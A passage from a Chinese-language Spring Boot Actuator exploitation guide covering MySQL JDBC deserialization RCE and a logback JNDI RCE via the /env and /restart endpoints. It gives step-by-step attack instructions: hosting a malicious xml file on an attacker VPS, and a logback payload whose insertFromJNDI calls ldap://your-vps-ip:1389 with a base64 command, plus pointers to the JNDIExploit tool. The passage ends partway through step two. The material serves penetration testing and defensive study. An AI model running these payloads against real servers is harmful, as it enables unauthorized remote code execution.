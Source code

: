 **漏洞分析：**

​ [New-Exploit-Technique-In-Java-Deserialization-Attack](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)

**漏洞环境：**

> 需要配置 application.properties 中的 spring.datasource.url、spring.datasource.username、spring.datasource.password，保证可以正常连上 mysql 数据库，否则程序启动时就会报错退出

[repository/springboot-mysql-jdbc-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-mysql-jdbc-rce)

正常访问：

```
http://127.0.0.1:9097/actuator/env
```

发送完 payload 后触发漏洞：

```
http://127.0.0.1:9097/product/list
```

#### 0x09：restart logging.config logback JNDI RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 xml 语法内容的文件，会导致程序异常退出
* ⚠️ JNDI 服务返回的 object 需要实现 `javax.naming.spi.ObjectFactory` 接口，否则会导致程序异常退出

**利用方法：**

**步骤一：托管 xml 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```

**步骤二：托管恶意 ldap 服务及代码**

参考[文章](https://landgrey.me/blog/21/)，修改 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 并启动（也可以使用其他方法）：
